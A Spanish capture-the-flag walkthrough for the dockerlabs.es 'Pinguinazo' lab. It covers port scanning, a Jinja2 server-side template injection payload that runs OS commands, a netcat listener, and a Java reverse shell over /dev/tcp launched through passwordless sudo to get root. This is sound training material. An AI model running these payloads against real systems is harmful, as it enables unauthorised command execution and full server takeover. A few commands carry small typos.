 ```yaml
---
title: "dockerlabs.es: máquina Pinguinazo"
published: true
date: 2024-05-21 21:10:00
tags: [Kali Linux, Netcat, Privilege Escalation, Pentesting, Cybersecurity, CVE, Exploits, Linux, Reverse Shell, Post Exploitation]
image: /blog/assets/dockerlabs.es_pinguinazo/portada.png
---
```


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/portada.png)
<br>

### Descripción
* * *
<br>
En esta guía, veremos como podremos vulnerar una máquina realizada en imágenes docker la cual vamos a examinar, a hacer varias reverse shell y además de, conocer un poco acera de las `SSTI (Server Side Template Injection)`


### Enlace de Lab:
[dockerlabs.es: Pinguinazo](https://www.dockerlabs.es/).

### Dificultad:
Fácil.

### Solución
* * *
<br>

Para iniciar el proceso de `vulnerar` esta máquina, lo primero que haremos es con ayuda de `nmap` ver a qué nos estamos enfrentando.



``` shell
nmap -p- -Pn  -sS --min-rate 5000 --open 172.17.0.2 -oX report.xml -v
```
donde:



`-p-`: Escanea todos los puertos existentes (0-65365)


`-Pn`: Evita que `nmap` realice un descubrimiento de host antes de realizar el escaneo


`-sS`: Realiza un escaneo de puertos TCP mediante un escaneo SYN. Esto implica enviar un paquete SYN y esperar una respuesta; si el puerto está abierto, el host responderá con un paquete SYN-ACK

`--min-rate`: Configura la tasa mínima de paquetes enviados a 5000 paquetes por segundo. Esto acelera el escaneo, ya que `nmap` enviará paquetes a una tasa muy alta

`--open`: Esta opción le indica a `nmap` que sólo muestre los puertos que están abiertos.

`-oX`: Guarda la salida del escaneo en un archivo XML llamado `report.xml`








`-v`: Aumenta la verbosidad de la salida de `nmap`, proporcionando más detalles sobre lo que está haciendo `nmap`.








<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_1.JPG)
<br>








Obtenemos 1 puerto abierto, `5000 -> upnp?`  .








Ahora es momento de ver con qué versiones nos estamos enfrentando de cada servicio. Para ello implementamos el código:








```shell
nmap -sCV -p5000 172.17.0.2-oN ports_version
```








Donde:








**`-sC`**: Esta opción le dice a `nmap` que ejecute scripts predeterminados contra los puertos encontrados.


**`-sV`**: Le indica a `nmap` que intente determinar la versión de los servicios que se están ejecutando en los puertos abiertos.








>*sCV es la combinación de ambos comandos*.




<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_2.JPG)
<br>




Nos fijamos que tiene un puerto abierto.








`puerto 5000`: servicio upnp?




Lo primero que haremos es ver los vectores de entrada que tiene el `puerto 5000`, vemos que es una template hecha con `Jinja`










<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_form.png)
<br>




Vemos que es una web con un formulario básico que pide cierta información. Veremos si es vulnerable a `html injection`


escribimos en `PinguNombre` el siguiente comando:




```html
<h1>Canary</h1>
```
Y vemos que es vulnerable


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_4.JPG)
<br>




Intentamos hacer un `SSTI (Server Side Template Injection)`


```text
{ { 7*7 } } (sin los espacios)
```


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_5.JPG)
<br>


Y vemos que es vulnerable a este ataque.


Ahora es momento de correr comandos de linux, navegando en internet podemos encontrar varias web que nos ofrecen payloads y comandos ya listos.


En esta página web [^1] encontramos varios `payloads`.




Ejecutar uno para determinar qué usuario somos


```python
{ { request.application.__globals__.__builtins__.__import__('os').popen('id').read() } }
```


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_6.JPG)
<br>


Ejecutando el comando `id` vemos que pertenecemos al grupo `pinguinazo`


Ya que podemos correr comandos a nivel de sistema, es momento de hacer una `reverse shell` para tener acceso al servidor




Abrimos un puerto en `nc` en modo de escucha con el siguiente comando:


```bash
nc -lvnp 443
```


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_7.JPG)
<br>


Presionamos el botón `save all` y volvemos a nuestra `nc` en modo escucha, obtendremos lo siguiente:


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_8.JPG)
<br>


Vemos que somos el usuario `Pinguinazo`, es momento de tratar la bash, más que nada para poder hacer `ctrl+c` sin matar la `reverse shell` y `ctrl+l` para poder limpiar la pantalla:




```bash
script /dev/null -c bash
```

`ctrl+z`


```bash
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```


Si hacemos nano, vi o cat, la pantalla nos aparecerá pequeña y no podremos crear archivos con total libertad. Para ello, corremos lo siguiente:


Abrimos una terminal nueva y corremos:




```bash
stty size
```




<br>
![](/blog/assets/dockerlab.es_upload/bash.png)
<br>
Nos aparecerán dos números, el primero corresponde a las `rows` y el segundo a `columns`.




Abrimos la `reverse shell` y corremos el siguiente código:




```bash
stty rows 24 columns 128
```


Una vez ya tratamos la `tty` es momento de buscar una vía para `escalar privilegios`. Para eso, ejecutamos el comando


```bash
sudo -l
```


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_9.JPG)
<br>




Vemos que podemos ejecutar como usuario `root` sin necesidad de password el binario de `java`


No hay ninguna forma de escalar con permisos, como el caso de `python`, `ruby` o `php`.


Así que haremos una reverse shell y abrimos otra terminal con `nc` en nuestra máquina local.




Si vamos al a web de `revshell`[^2] y en la sección de `java` copiamos la siguiente:


```java
public class shell {
   public static void main(String[] args) {
       Process p;
       try {
           p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/443 0>&1");
           p.waitFor();
           p.destroy();
       } catch (Exception e) {}
   }
}
```


Con nuestra nueva `nc` en modo escucha




<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_7.JPG)
<br>


Corremos el script de la siguiente forma:




```bash
sudo /usr/bin/java reverse_shell.java
```
<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_10.JPG)
<br>


Y vemos que recibimos la conexión como usuario `root` en nuestra máquina.
### _Referencias_
* * *
[^1]: [Jinja2: Template injection](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)


[^2]: [Reverse Shell Generator](https://www.revshells.com/)







